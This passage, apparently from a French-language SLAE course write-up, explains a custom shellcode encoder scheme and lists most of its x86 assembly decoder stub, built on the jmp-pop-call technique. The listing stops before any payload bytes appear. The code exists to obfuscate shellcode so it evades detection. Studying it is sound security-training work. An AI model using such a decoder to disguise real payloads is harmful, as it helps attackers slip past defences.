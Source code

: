 Dans le cas ou la tailel du shellcode est impaire, nous décodons selon le principe définit en début d'article.

```c
impair:
	mov byte bl, [edi+1]
	mov byte dl, [edi+2]
	xor bl, dl
	mov [esi], bl
```

Ci-dessous le code complet du programme.

```c
; SLAE - Assignment 4: Custom encoder/decoder shellcode (Linux/x86)
; Author: Alain Menelet 
; StudentID - SLAE-3763
; Tested on Ubuntu 16.14.03 LTS


global _start

section .text

_start:
	jmp short Shellcode					; jmp pop call technique

decoder:
	pop esi							; esi = @ of the shellcode
	push esi						; save esi on the stack
	mov edi, esi						; edi = esi because we use two offset for our algo
	xor ecx,ecx						; ecx is set to 0
	mul ecx							; edx, eax are set to 0
	
	mov cl, 0x17						; set the length of the shellcode
	
	
_:	
	xor eax, eax						; set eax, ebx, ecx to 0 each turn during the loop
	xor ebx, ebx
	xor edx, edx

	mov byte al, [edi]					; set al with the first byte of the shellcode
	cmp al, 0xff						; al == 0xFF ? 
	jz impair						; if the shellcode len is odd we jump to label impair

	mov byte dl, [edi+1]					; set dl with the second byte of the shellcode
	sub dl, al						; we substract dl with al
	mov byte bl, [edi+2]					; set bl with the third byte of the shellcode
	sub bl, al						; we substract bl with al
	xor dl, bl						; xor dl and bl
	mov [esi], dl						; then we put dl and bl decoded
	mov [esi+1], bl


	inc esi							; because we use esi and edi as offset, we need to increment them
	inc esi
	inc edi
	inc edi
	inc edi

	loop _							; loop while ecx > 0
	jmp short final
	
```